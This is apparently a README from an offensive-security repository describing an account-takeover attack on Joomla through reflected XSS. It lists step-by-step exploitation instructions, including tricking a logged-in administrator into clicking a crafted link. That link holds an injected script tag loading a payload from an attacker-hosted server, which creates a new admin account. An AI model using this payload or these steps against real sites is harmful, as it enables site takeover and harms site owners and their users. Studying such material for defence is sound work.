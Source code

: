 # [ATO] Create New Admin User

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccJoomla.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 12 characters)

    `newAccEmail` - email of the user account to be created

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/createAdminAccJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting the payload

5. [post exploit] attacker logs into target Joomla site using specified credentials

    http://192.168.5.19/administrator/

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/CreateNewAdmin/screenshots/Joomla_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/CreateNewAdmin/screenshots/Joomla_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/5276712b-9124-479b-9e7c-be783178d47a
